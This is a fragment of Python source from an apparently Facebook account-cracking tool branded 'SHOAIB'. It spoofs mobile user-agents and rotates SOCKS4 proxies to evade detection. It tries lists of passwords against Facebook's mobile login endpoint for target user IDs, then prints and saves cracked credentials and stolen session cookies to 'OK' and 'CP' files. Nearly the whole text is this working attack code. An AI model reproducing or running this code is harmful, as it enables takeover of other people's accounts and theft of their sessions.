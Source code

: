 'Mozilla/5.0 (Linux; Android 10; JNY-LX1; HMSCore 6.6.0.312) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.105 HuaweiBrowser/12.1.0.303 Mobile Safari/537.36','Mozilla/5.0 (Linux; Android 10; ART-L29; HMSCore 6.6.0.311) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.105 HuaweiBrowser/12.1.0.303 Mobile Safari/537.36',
'Mozilla/5.0 (Linux; Android 10; ELS-NX9; HMSCore 6.6.0.312) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.105 HuaweiBrowser/12.1.0.303 Mobile Safari/537.36','Mozilla/5.0 (Linux; Android 8.1.0; jhs561 Build/GIADA.eng.zc.20200922.153858; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/81.0.4044.138 Safari/537.36',
'Mozilla/5.0 (Linux; Android 12; SM-G991U) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36','Mozilla/5.0 (Linux; Android 7.1.2; 17MB150WB Build/NZH54D; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/72.0.3626.121 Safari/537.36'
])
	ses = requests.Session()
	for pw in pwv:
		try:
			nip=random.choice(prox)
			proxs= {'http': 'socks4://'+nip}
			ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			p = ses.get('https://p.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={"Host":'m.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
			po = ses.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				print(f'\r{N}╭───[SHOAIB-CP]\n└──╭➣ EMAIL: {k}{idf}{N}\n └──╭➣ PASSWORD: {k}{pw}{N}\n   └───➣{m} {ua}{N}\n')
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r{N}╭───[SHOAIB-OK]\n└──╭➣ EMAIL:  {H}{idf}{N}\n  └──╭➣ PASSWORD:  {H}{pw}{N}\n  └──╭➣ Cokkie: {H}{kuki} ')
				open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n')
				cek_SHOAIB(kuki)
				break
				